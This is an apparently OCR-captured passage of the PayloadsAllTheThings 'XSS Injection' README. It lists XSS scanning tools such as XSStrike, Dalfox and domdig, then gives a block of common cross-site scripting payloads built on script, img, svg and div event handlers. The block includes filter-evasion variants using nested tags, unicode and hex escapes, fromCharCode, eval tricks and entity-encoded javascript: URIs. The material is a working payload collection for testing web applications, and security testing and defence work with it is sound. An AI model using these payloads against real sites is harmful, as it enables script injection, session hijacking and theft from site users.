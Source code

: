 [](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#tools)

Most tools are also suitable for blind XSS attacks:

- [XSSStrike](https://github.com/s0md3v/XSStrike): Very popular but unfortunately not very well maintained
- [xsser](https://github.com/epsylon/xsser): Utilizes a headless browser to detect XSS vulnerabilities
- [Dalfox](https://github.com/hahwul/dalfox): Extensive functionality and extremely fast thanks to the implementation in Go
- [XSpear](https://github.com/hahwul/XSpear): Similar to Dalfox but based on Ruby
- [domdig](https://github.com/fcavallarin/domdig): Headless Chrome XSS Tester

## XSS in HTML/Applications

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-htmlapplications)

### Common Payloads

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#common-payloads)

```js
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
<><img src=1 onerror=alert(1)>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```